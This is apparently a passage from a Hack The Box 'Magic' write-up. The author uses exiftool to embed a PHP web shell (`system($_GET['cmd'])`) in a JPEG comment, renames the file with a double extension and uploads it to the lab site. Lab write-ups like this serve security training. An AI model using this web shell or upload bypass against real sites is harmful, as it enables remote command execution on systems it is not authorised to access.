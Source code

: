 ```bash
Y Resolution                    : 1
Image Width                     : 960
Image Height                    : 610
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 960x610
Megapixels                      : 0.586
```

Nothing out of the ordinary.
But, this gives me an idea...
I know the site is running PHP web pages.
I am going to try to embed PHP code into an image and upload it.
I can do so with:

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' 5.jpeg
```

Inspecting the image's metadata now shows my PHP code as a comment in the image's metadata.

```bash
exiftool 5.jpeg

ExifTool Version Number         : 11.99
File Name                       : 5.jpeg
Directory                       : .
File Size                       : 48 kB
File Modification Date/Time     : 2020:06:14 15:14:19-04:00
File Access Date/Time           : 2020:06:14 15:22:04-04:00
File Inode Change Date/Time     : 2020:06:14 15:22:04-04:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : <?php echo "<pre>"; system($_GET[cmd]); ?>
Image Width                     : 960
Image Height                    : 610
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 960x610
Megapixels                      : 0.586
```

I rename the file to `artis3n.php.jpg` and upload it to the site.
It is successful.


[burp]: https://portswigger.net/burp
[exiftool]: https://github.com/exiftool/exiftool
[gobuster]: https://github.com/OJ/gobuster
[hackthebox]: https://www.hackthebox.eu
[linenum]: https://github.com/rebootuser/LinEnum
[lse]: https://github.com/diego-treitos/linux-smart-enumeration
[burp homepage source]: /assets/img/htb/magic/burp-homepage-image-paths.png
[burp login request]: /assets/img/htb/magic/sqli-login-request.png
[burp login response]: /assets/img/htb/magic/sqli-login-response.png
[image upload]: /assets/img/htb/magic/login-image-upload.png
[php image upload]: /assets/img/htb/magic/image-successful-upload.png
[php image code exec]: /assets/img/htb/magic/php-cmd-shell-image.png
[meterpreter payload burp]: /assets/img/htb/magic/php-meterpreter-payload-burp.png
[meterpreter user shell]: /assets/img/htb/magic/php-meterpreter-shell.png
[path hijack]: /assets/img/htb/magic/path-hijack.png
[root shell]: /assets/img/htb/magic/root-shell.png
